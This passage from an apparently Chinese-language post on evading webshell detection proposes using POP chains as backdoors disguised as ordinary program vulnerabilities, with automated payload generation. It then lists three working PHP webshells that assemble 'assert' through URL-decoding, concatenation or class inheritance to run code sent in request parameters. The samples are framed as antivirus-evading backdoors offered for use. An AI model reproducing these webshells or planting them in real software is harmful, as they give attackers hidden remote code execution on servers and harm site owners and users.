 ### POP链

这是以后webshell-venom的方向。

之前以上所做的一切混淆编码都是人为的留后门，为了留后门而留后门，很容易被发现。

然而POP相当于程序的漏洞，可以看作是人造漏洞，难以被检测出。

可以写一个脚本来循环生成，自动拼接，自动生成payload。

项目还在规划中，有兴趣的同学可以一起研究一下。

### 补充实例

放一些星球里的例子吧，都是免杀的图就不重复贴了。

```
<?php 
class T{
    public $t;
    function test(){
    $this->t=@$_REQUEST['mr6'];
    $k = urldecode("%73%73%65%72%74");
    $a = 'a'.$k;
    return $a;
    }
}
$test=new T();
$a=$test->test();
@$a($test->t);
?>
```

**转义号绕过**

```
<?php
function Test(){
    $c=[$x='a',$x.='s',$x.='s',$x.='e',$x.='r',$x.='t'];
    $c=$_REQUEST['a'];
    return [$x("\\$c")];
}
Test();
?>
```

**类继承绕过**

```
<?php
class get{
    public function setName($name){
        return $this -> name = $name;
    }
}
class getshell extends get{
    public $name = "ass";
    public $name2 = "ert";
}
$shell = new getshell();
$gshell = $shell -> name;
$gshell2 = $shell -> name2;
$b = $shell -> setName("$_POST[1]");
$s = $gshell.$gshell2;
$s($b);
?>
```
